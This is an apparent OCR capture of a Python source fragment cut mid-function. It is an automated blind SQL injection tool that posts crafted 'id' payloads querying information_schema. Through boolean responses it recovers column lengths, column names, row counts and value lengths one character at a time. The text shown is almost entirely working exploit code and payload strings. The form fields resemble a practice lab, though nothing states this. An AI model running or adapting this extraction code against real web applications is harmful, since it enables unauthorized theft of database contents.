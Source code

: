 ```python
            }
            html = self.s.post(self.url,data=data,headers=self.headers).text
            if self.check(html):
                self.column_length.append(i)
                break
        if len(self.column_length) >= 1:
            print('\n==>',self.column_length)
        else:
            print('\ncan not get the column_length')
    def get_column_name(self,table_name):
        table_name = self.tranhex(table_name)
        name = ''
        for i in range(1,self.column_length[0]+1):
            for j in self.zifuji:
                self.process('{0} get_column_name'.format(str(i)),j,100)
                data = {
                    'id':"1 and (select ascii(substring(group_concat(column_name),{0},1)) as a from information_schema.columns where table_schema=database() and table_name={1} having a={2})".format(str(i),table_name,str(j)),
                    'Submit':'Submit',
                }
                html = self.s.post(self.url,data=data,headers=self.headers).text
                if self.check(html):
                    name += chr(j)
                    break
            if len(name) != i:
                name += '|'
        if len(name) == self.column_length[0]:
            self.column_name.append(name)
            print('\n==>',self.column_name[0])
        else:
            print('\ncan not get the column_name')
    def get_word_num(self,table_name,column_name):
        for i in range(1,100):
            self.process('get_word_num',i,30)
            data = {
                'id':"1 and (select count({0}) as a from {1} having a={2})".format(column_name,table_name,str(i)),
                'Submit':'Submit',
            }
            html = self.s.post(self.url,data=data,headers=self.headers).text
            if self.check(html):
                self.word_num = i
                break
        if self.word_num > 0:
            print('\n==>',self.word_num)
        else:
            print('\ncan not get the word_num')
    def get_word_length(self,table_name,column_name):
        for i in range(1,200):
            self.process('get_{0}_length'.format(column_name),i,200)
            data = {
                'id':"1 and (select length(group_concat({0})) as a from {1} having a={2})".format(column_name,table_name,str(i)),
                'Submit':'Submit',
            }
            html = self.s.post(self.url,data=data,headers=self.headers).text
            if self.check(html):
                self.word_length.append(i)
                break
        if len(self.word_length) >= 1:
            print('\n==>',self.word_length)
        else:
```